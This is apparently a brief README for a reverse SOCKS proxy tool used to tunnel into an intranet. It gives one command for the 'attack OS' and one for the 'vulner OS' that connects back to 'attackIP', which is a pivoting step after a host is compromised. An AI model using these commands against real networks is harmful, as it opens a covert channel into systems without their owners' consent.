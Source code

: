 # Proxy
<br>proxy in Intranet</br>
<br>You can use it to communicate through the Intranet!</br>
<br>Proxy_server: running in attack OS</br>
<br>  ./proxy_server -s rcsocks -l prot1 -e prot2</br>
<br>Proxy: running in vulner OS</br>
<br>  ./proxy -s rssocks -d attackIP -e port2</br>

